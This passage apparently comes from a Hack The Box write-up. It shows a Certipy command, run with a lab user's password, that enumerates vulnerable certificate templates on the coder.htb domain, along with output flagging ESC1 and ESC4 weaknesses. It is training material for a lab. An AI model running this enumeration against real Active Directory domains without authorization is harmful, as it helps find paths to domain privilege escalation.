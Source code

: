 ```

oxdf@hacky$ certipy find -u e.black -p ypOSJXPqlDOxxbQSfEERy300 -target coder.htb -text -stdout -vulnerable
Certipy v4.8.2 - by Oliver Lyak (ly4k)
...[snip]...
Certificate Templates
  0
    Template Name                       : 0xdf-ESC1
    Display Name                        : 0xdf-ESC1
    Certificate Authorities             : coder-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : True
    Certificate Name Flag               : EnrolleeSuppliesSubject
    Enrollment Flag                     : AutoEnrollment
    Private Key Flag                    : AttestNone
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1 year
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CODER.HTB\Erron Black
      Object Control Permissions
        Owner                           : CODER.HTB\Erron Black
        Full Control Principals         : CODER.HTB\Domain Admins
                                          CODER.HTB\Local System
                                          CODER.HTB\Enterprise Admins
        Write Owner Principals          : CODER.HTB\Domain Admins
                                          CODER.HTB\Local System
                                          CODER.HTB\Enterprise Admins
        Write Dacl Principals           : CODER.HTB\Domain Admins
                                          CODER.HTB\Local System
                                          CODER.HTB\Enterprise Admins
        Write Property Principals       : CODER.HTB\Domain Admins
                                          CODER.HTB\Local System
                                          CODER.HTB\Enterprise Admins
    [!] Vulnerabilities
      ESC1                              : 'CODER.HTB\\Erron Black' can enroll, enrollee supplies subject and template allows client authentication
      ESC4                              : Template is owned by CODER.HTB\Erron Black

```

ESC1 is what I’ve configured, and ESC4 is because e.black owns the template (and therefore could abuse it).
